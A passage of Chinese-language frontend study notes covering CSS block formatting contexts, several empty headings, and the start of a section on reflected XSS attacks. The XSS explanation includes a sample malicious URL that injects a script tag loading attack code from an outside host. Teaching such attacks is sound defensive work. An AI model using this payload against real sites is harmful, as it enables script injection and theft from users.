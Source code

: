 1. 修复浮动元素造成的高度塌陷问题

2. 避免非期望的外边距折叠

3. 实现灵活健壮的自适应布局

#### 触发 BFC 的常见条件

- `<html>` 根元素

- `float` 的值不为 `none`

- `position` 的值不为 `relative` 或 `static`

- `overflow` 的值不为 `visible` 或 `clip`（除了根元素）

- `display`

  - `table-cell`，`table-caption`， `inline-block`，`flow-root`，`list-item`。
  - **flex 或 grid 直接子元素**
    即 `display` 的值为 `flex`/`inline-flex`/`grid`/`inline-grid` 的元素的直接子元素
    > 该子元素 `display` 不为 `flex`，`grid`，或 `table`

- `contain` 的值为 `layout`，`content`，`paint`，或 `strict` 中的任意一个
- `column-span` 设置为 `all` 的元素

> 提示：`display: flow-root`，`contain: layout` 等是无副作用的，可在不影响已有布局的情况下触发 BFC。

### 移动端自适应的方式

### CSS 预处理器

### CSS 后处理器

## 网络

### 前端安全问题

#### XSS 跨站脚本攻击

指攻击者在网页中注入恶意代码，在用户浏览网页的时候进行攻击。

类型：

1. 反射型（非持久性）

   **原理**：将攻击代码放在 url 地址的请求参数中，其他用户访问该恶意链接时，服务端在 URL 取出恶意代码后拼接至 HTML 中返回给用户浏览器。

   **要点**：

   - 通过 URL 插入恶意代码。
   - 有服务端参与。
   - 需要用户访问特定链接。

   **例子**：

   攻击者诱导被害者打开链接 `hzfe.org?name=<script src="http://a.com/attack.js"/>`。
